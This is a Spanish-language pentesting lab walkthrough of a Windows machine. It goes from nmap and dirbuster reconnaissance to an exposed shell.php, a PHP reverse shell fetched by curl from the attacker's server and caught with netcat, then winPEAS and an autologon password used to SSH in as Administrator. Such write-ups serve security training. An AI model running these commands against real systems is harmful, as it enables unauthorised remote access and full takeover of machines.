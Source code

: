 ```yaml
---
title: Pentesting Escalate_Win
published: true
---
```


### Reconocimiento
Escaneamos con **nmap**:
```
sudo nmap -p- -T4 [IP DE LA VÍCTIMA] -oN nmap.txt
```
![](/images/20220513115055.png)

Vemos que la máquina tiene el puerto 80 abierto(**http**), por lo tanto, es accesible desde un navegador web:
![](/images/20220513115328.png)

Lanzamos un ataque de diccionario con **dirbuster** para descubrir que directorios hay disponibles:
![](/images/20220513120012.png)

Detectamos un archivo que parece interesante "**shell.php**":
![](/images/20220513120328.png)

![](/images/20220513121121.png)

Como vemos se pueden ejecutar comandos a través de parámetros en la url:
![](/images/20220513121252.png)

### Exploit
Para conseguir una consola interactiva con la máquina víctima utilizamos una **shell inversa** y **netcat**:

En este caso he escogido esta, ya que es compatible con Windows: [php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

Descargamos la shell a nuestra máquina con el comando **wget**:
```
wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
```

Ahora editamos el código de **php_reverse_shell.php** para que conecte a nuestra máquina:
```
nano php_reverse_shell.php
```
![](/images/20220513122810.png)
*En mi caso la ip de kali es 192.168.3.249 y utilizaré el puerto 4444*
Una vez editado guardamos con **CTRL+S** y cerramos con **CTRL+X**

Lo siguiente es iniciar un **servidor http** para poder descargar la shell en la máquina víctima:
```
sudo python3 -m http.server 80
```
![](/images/20220513123751.png)

Descargamos la shell a la máquina víctima desde el navegador utilizando **curl**:
```
http://[IP DE LA VÍCTIMA]/shell.php?cmd=curl+http://[IP DEL ATACANTE]/php_reverse_shell.php+-O+php_reverse_shell.php
```
*Si todo ha ido bien, el servidor nos contestara con una página en blanco*

Podemos ver que nuestro shell se ha subido correctamente:
```
http://[IP DE LA VÍCTIMA]/shell.php?ls+-la
```
![](/images/20220513125043.png)
Ya podemos cerrar el servidor http en kali.

Ponemos **netcat** a la escucha en el puerto 4444:
```
nc -nlvp 4444
```
![](/images/20220513125601.png)

Lo único que falta es ejecutar la shell en la máquina víctima:
```
http://[IP DE LA VÍCTIMA]/php_reverse_shell.php.php
```
*Si todo va bien, el navegador se quedara cargando.*

Listo, hemos recibido una conexion en netcat que nos da acceso remoto a la máquina víctima:
![](/images/20220513130346.png)

![](/images/20220513130922.png)

A partir de aquí pasaríamos a la fase de **escalada de privilegios**.

### Escalada

Para encontrar nuestro vector de ataque utilizamos [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), que es uno de los mejores scripts para escalada de privilegios.

Descargamos el script a nuestra máquina con el comando **wget**:
```
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```
Volvemos a iniciar el **servidor http** para descargar el script desde la máquina víctima:
```
sudo python3 -m http.server 80
```
Desde la consola que tenemos en la máquina víctima, descargamos el script con **curl**:
```
curl http://[IP DEL ATACANTE]/winPEAS.bat -o winPEAS.bat
```
![](/images/20220515132412.png)

Ejecutamos el script en la máquina víctima:
```
winPEAS.bat
```
WinPEAS nos da muchísima información, pero nos fijamos en la parte que nos indica las vulnerabilidades que no están parcheadas:
![](/images/20220515132738.png)

También aparece una contraseña guardada del inicio de sesión automático:
![](/images/20220515133604.png)

Probamos a conectarnos por **SSH** con la cuenta de administrador:
```
ssh Administrator@[IP DE LA VÍCTIMA]
```
**Bingo!** Tras introducir la contraseña que hemos encontrado en ¨winLogon¨ tenemos el control total de la máquina víctima:
![](/images/20220515134932.png)

Esto demuestra los riesgos que hay al guardar contraseñas para el inicio de sesión automático, y la mala gestión de Windows por almacenar esta contraseña en texto plano.

#### Enlaces interesantes

* Dirbuster - [https://www.kali.org/tools/dirbuster/](https://www.kali.org/tools/dirbuster/)
* Php-reverse-shell - [https://github.com/ivan-sincek/php-reverse-shell](https://github.com/ivan-sincek/php-reverse-shell)
* Hacking with Netcat - [https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
* Privilege Escalation Awesome Scripts SUITE - [https://github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)